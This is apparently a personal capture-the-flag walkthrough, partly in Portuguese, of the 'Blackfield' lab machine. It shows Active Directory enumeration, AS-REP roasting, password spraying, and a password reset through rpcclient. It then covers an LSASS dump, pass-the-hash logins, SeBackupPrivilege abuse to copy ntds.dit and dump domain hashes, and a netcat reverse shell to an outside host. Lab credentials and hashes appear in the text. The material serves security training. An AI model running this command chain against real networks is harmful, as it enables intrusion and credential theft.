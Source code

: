 Blackfield
========================

![qownnotes-media-mCrkDI](../../../media/qownnotes-media-mCrkDI.png)

DNS

![qownnotes-media-dgSmXh](../../../media/qownnotes-media-dgSmXh.png)

Kerberos (88)

RPC (135/593)

![qownnotes-media-BPEaBn](../../../media/qownnotes-media-BPEaBn.png)

SMB

![qownnotes-media-NmDyiC](../../../media/qownnotes-media-NmDyiC.png)

    impacket-lookupsid blackfield.local@10.10.10.192

![qownnotes-media-RQJgHM](../../../media/qownnotes-media-RQJgHM.png)

![qownnotes-media-FhwUbl](../../../media/qownnotes-media-FhwUbl.png)

![qownnotes-media-ORXbBb](../../../media/qownnotes-media-ORXbBb.png)

Valid usernames:
```
cat valid_users.txt                             
audit2020
svc_backup
support
lydericlefebvre
```

    impacket-GetNPUsers -request blackfield.local/ -usersfile valid_users.txt -dc-ip 10.10.10.192

![qownnotes-media-qIAMGO](../../../media/qownnotes-media-qIAMGO.png)

    john --wordlist=/usr/share/wordlists/rockyou.txt svc_backup_hash.txt



LDAP (389/3268)

![qownnotes-media-JfBrKY](../../../media/qownnotes-media-JfBrKY.png)


## Exploitation

Creds:

support:#00^BlackKnight

### Password spray

    crackmapexec smb 10.10.10.192 -u valid_users.txt -p passwords.txt --continue

    crackmapexec winrm 10.10.10.192 -u valid_users.txt -p passwords.txt --continue

![qownnotes-media-ZSgQkd](../../../media/qownnotes-media-ZSgQkd.png)

    kerbrute passwordspray -d blackfield.local --dc dc01.blackfield.local valid_users.txt '#00^BlackKnight'

### Shares Enumeration Authenticated

    crackmapexec smb 10.10.10.192 -u support -p passwords.txt --shares

![qownnotes-media-GpUPaM](../../../media/qownnotes-media-GpUPaM.png)

    enum4linux -u support -p '#00^BlackKnight' -a -A 10.10.10.192

Obtive outros usuários

### SPNs Kerberoasting

    impacket-GetUserSPNs -request blackfield.local/support:#00^BlackKnight -dc-ip 10.10.10.192

### Domain Enumeration with bloodhound

Aqui temos algumas coisas interessantes para olhar. Vamos considerar o seguinte:

GenericAll - full rights to the object (add users to a group or reset user's password)
GenericWrite - update object's attributes (i.e logon script)
WriteOwner - change object owner to attacker controlled user take over the object
WriteDACL - modify object's ACEs and give attacker full control right over the object
AllExtendedRights - ability to add user to a group or reset password
ForceChangePassword - ability to change user's password
Self (Self-Membership) - ability to add yourself to a group

Isso pode ser visto nesta sessão do bloodhound:

![qownnotes-media-VpIkpQ](../../../media/qownnotes-media-VpIkpQ.png)

Caso contrário, podemos considerar algumas opções ainda no bloodhound, tais como:

Setar todos os demais usuários como "High Value" e verificar no filtro como fazer para encontrá-lo nas análises e filtros do bloodhound, conforme eu já faço.

Aqui eu notei que o ataque pode ocorrer devido a uma permissão vista conforme o print que tirei acima:

![qownnotes-media-DbfaCf](../../../media/qownnotes-media-DbfaCf.png)

ou 

![qownnotes-media-hjpSiZ](../../../media/qownnotes-media-hjpSiZ.png)

![qownnotes-media-Bytuhu](../../../media/qownnotes-media-Bytuhu.png)


### rpcclient

    rpcclient -U blackfield.local/support 10.10.10.192
    setuserinfo2 audit2020 23 P@ssword!

Agora a gente faz uma nova enumeração de shares e encontramos informações que nos ajudaram a entrar como o svc_backup na máquina:

![qownnotes-media-FvwmuB](../../../media/qownnotes-media-FvwmuB.png)

![qownnotes-media-SSgLdY](../../../media/qownnotes-media-SSgLdY.png)

Baixei esses arquivos, mas o que fez realmente a diferença foi o de memória, onde peguei o LSASS da máquina e fiz o dump da memória com pypykatz:

    pypykatz lsa minidump lsass.DMP

![qownnotes-media-FKKKEa](../../../media/qownnotes-media-FKKKEa.png)

    evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

## PrivEsc

Aqui um aprendizado novo!!!

![qownnotes-media-wuUvdy](../../../media/qownnotes-media-wuUvdy.png)

com a permissão de SeBackupPrivilege dá pra conseguir fazer a cópia dos arquivos mais sensíveis do sistema, tais como o system e a sam, a considerar uma máquina fora do domínio podemos prosseguir com os seguintes comandos:

    reg save hklm\sam c:\Temp\sam
    reg save hklm\system c:\Temp\system

Mas para o caso do Domain Controller, temos de considerar os seguintes comandos:

Criar um arquivo, cujo extensão tem de ser  ".dsh"

    cat test.dsh
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

    unix2dos test.dsh

Subir para a máquina alvo e executar os seguintes comandos:

    diskshadow /s test.dsh
    robocopy /b z:\windows\ntds . ntds.dit
    reg save hklm\system c:\Temp\system
Se atentar somente ao diretório direitinho no qual se está operando:
Baixar os arquivos system e ntds.dit para a máquina do atacante e executar o secretsdump localmente da seguinte maneira:

    impacket-secretsdump -ntds ntds.dit -system system local

![qownnotes-media-CfcHGG](../../../media/qownnotes-media-CfcHGG.png)

    impacket-psexec administrator@10.10.10.192 -hashes :184fb5e5178480be64824d4cd53b99ee

    evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee

Subi o psexec para a máquina e o netcat e fiz a shell para system dessa forma:

    .\pe.exe -accepteula -i -s -d c:\temp\n.exe -e powershell 10.10.14.14 8082
 
![qownnotes-media-bFWfpH](../../../media/qownnotes-media-bFWfpH.png)